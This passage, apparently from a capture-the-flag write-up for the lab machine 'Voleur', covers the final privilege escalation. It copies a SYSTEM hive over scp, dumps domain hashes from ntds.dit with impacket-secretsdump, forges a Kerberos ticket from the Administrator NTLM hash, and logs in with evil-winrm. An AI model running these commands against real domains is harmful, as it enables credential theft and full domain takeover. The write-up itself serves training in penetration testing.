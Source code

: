 ![25](/images/writeups/voleur/25.png)

```
scp -i id_rsa -P 2222 "svc_backup@voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Registry/SYSTEM" .
```

With these three files locally, we use `impacket-secretsdump` to extract **Active Directory account hashes**.

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

![26](/images/writeups/voleur/26.png)

Among the results, we obtain the **NTLM hash** of the **Administrator** account password, which we use to request a **TGT** for this user. With this **TGT**, we can authenticate as **Administrator** and access their privileges.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-getTGT -hashes :<ADMINISTRATOR_NTLM_HASH> voleur.htb/'Administrator'
export KRB5CCNAME=$PWD/Administrator.ccache
```

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" evil-winrm -i dc.voleur.htb -r voleur.htb
```

![27](/images/writeups/voleur/27.png)

Finally, we obtain the **Root Flag** and complete the machine!!